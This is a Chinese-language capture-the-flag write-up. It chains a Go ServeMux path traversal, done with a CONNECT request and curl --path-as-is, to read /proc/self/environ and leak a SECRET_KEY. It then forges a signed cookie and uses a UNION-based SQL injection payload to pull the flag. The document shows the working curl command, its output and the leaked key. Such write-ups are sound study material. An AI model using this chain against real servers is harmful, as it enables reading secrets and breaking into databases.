

# DVD Screensaver

一開始看了一下 code 沒什麼頭緒就去網路上找找看資料，找到了一篇滿有用的文章：https://ilyaglotov.com/blog/servemux-and-path-traversal，然後回去看 code 就發現 `/static/` 這個 route 可以用來操作 path traversal attack。

在 go http 的 document 中（https://pkg.go.dev/net/http#ServeMux.Handler）有提到如果使用 CONNECT method，不會改變 request 的 path 以及 host：

> The path and host are used unchanged for CONNECT requests.

這邊要使用 curl 的 `--path-as-is` 讓 path 維持 `static/login.css/../../../proc/self/environ`，如果沒有這個參數 curl 會把 path 會變成 `/proc/self/environ`  再送出，接著使用 CONNECT method 就可以拿到存在環境變數中的 `SECRET_KEY`

```
$ curl --output - -v -X CONNECT --path-as-is http://dvd.chal.h4ck3r.quest:10001/static/login.css/../../../proc/self/environ

*   Trying 139.162.124.237:10001...
* Connected to dvd.chal.h4ck3r.quest (139.162.124.237) port 10001 (#0)
> CONNECT /static/login.css/../../../proc/self/environ HTTP/1.1
> Host: dvd.chal.h4ck3r.quest:10001
> User-Agent: curl/7.74.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type:
< Date: Fri, 29 Oct 2021 12:55:12 GMT
< Content-Length: 202
<
* Connection #0 to host dvd.chal.h4ck3r.quest left intact
PATH=/go/bin:/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=9ad75fc686b9SECRET_KEY=d2908c1de1cd896d90f09df7df67e1d4GOLANG_VERSION=1.17.2GOPATH=/goHOME=/root%
```

SECRET_KEY=d2908c1de1cd896d90f09df7df67e1d4

有了 SECRET_KEY 後就可以在本地端產生自己想要的 username 的 signed cookie，把這個自己生的 cookie 丟到 http://dvd.chal.h4ck3r.quest:10001/ 就可以操作 SQL injection。

我使用了這個 pattern 來操作 SQL Injection: `' UNION SELECT username, flag FROM users WHERE uid={i}#`，接著就不斷增加 i 來找有 FLAG 的那個 user，就可以拿到 FLAG 了。

